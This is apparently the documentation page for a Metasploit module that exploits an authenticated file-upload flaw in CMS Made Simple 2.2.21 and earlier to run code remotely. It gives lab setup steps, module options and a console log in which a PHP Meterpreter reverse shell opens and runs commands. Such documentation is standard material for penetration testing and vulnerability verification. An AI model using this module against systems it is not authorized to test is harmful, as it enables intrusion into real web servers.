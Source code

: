 ## Vulnerable Application

CMS Made Simple <= v2.2.21 allows an authenticated administrator to upload files
with the `.phar` or `.phtml` extensions, enabling execution of PHP code
leading to RCE. The file can be executed by accessing its URL in the
`/uploads/` directory.

## Installation

### Kali Linux 2024.3

Install PHP dependencies:
```
sudo apt install -y php-gd php-mbstring php-intl php-xml php-curl php-zip php-mysql mariadb-server mariadb-client apache2 libapache2-mod-php8.4 unzip wget 
```

Start mariadb and apache:
```
sudo systemctl start apache2
sudo systemctl start mariadb
```

Connect to the database:
```
sudo mysql -u root -p
```

Create a database user `msfuser` and a database named `cmsms`:
```
CREATE USER 'msfuser'@'localhost' IDENTIFIED BY 'msfpass';
CREATE DATABASE cmsms;
GRANT ALL PRIVILEGES on cmsms.* TO 'msfuser'@'localhost';
FLUSH PRIVILEGES;
EXIT;
```

Download CMSMadeSimple, extract it and move it to `/var/www/html`:
```
wget https://s3.amazonaws.com/cmsms/downloads/15179/cmsms-2.2.21-install.zip
unzip cmsms-2.2.21-install.zip                
sudo mv cmsms-2.2.21-install.php /var/www/html
rm /var/www/html/index.html
```

Set the necessary permissions:
```
sudo chmod 755 -R /var/www/html/
sudo chown www-data:www-data -R /var/www/html/
```

The application should be now available at `http://localhost/cmsms-2.2.21-install.php/`,
navigate there in a browser to complete the setup wizard.
On the tests page, `Testing if we can change INI settings` warning can be ignored.
It will ask you for the database credentials created above, input them and enter `cmsms` for database name.

Once complete, go to `http://localhost/admin/login.php`, you should see an admin login panel.

## Verification Steps

1. Install CMSMadeSimple
2. Start msfconsole
3. Do: `use exploit/multi/http/cmsms_file_manager_auth_rce`
4. Do: `set RHOST [IP]`
5. Do: `set username [username]`
6. Do: `set password [password]`
7. Do: `run`
8. You should get a shell.

## Options

### USERNAME
The username for the CMSMS admin panel. Default is empty string

### PASSWORD
The password for the CMSMS admin panel. Default is empty string

## Scenarios

### CMSMadeSimple v2.2.21 on Kali Linux 2024.3

```
msf6 > use exploit/multi/http/cmsms_file_manager_auth_rce 
[*] No payload configured, defaulting to php/meterpreter/reverse_tcp
msf6 exploit(multi/http/cmsms_file_manager_auth_rce) > set RHOST 127.0.0.1
RHOST => 127.0.0.1
msf6 exploit(multi/http/cmsms_file_manager_auth_rce) > set username admin
username => admin
msf6 exploit(multi/http/cmsms_file_manager_auth_rce) > set password password
password => password
msf6 exploit(multi/http/cmsms_file_manager_auth_rce) > run
[*] Started reverse TCP handler on 192.168.232.128:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable.
[*] Sending stage (40004 bytes) to 192.168.232.128
[*] Meterpreter session 1 opened (192.168.232.128:4444 -> 192.168.232.128:42794) at 2025-03-22 02:53:16 -0400

meterpreter > getuid
Server username: www-data
meterpreter > sysinfo
Computer    : kali
OS          : Linux kali 6.8.11-amd64 #1 SMP PREEMPT_DYNAMIC Kali 6.8.11-1kali2 (2024-05-30) x86_64
Meterpreter : php/linux
meterpreter >
```
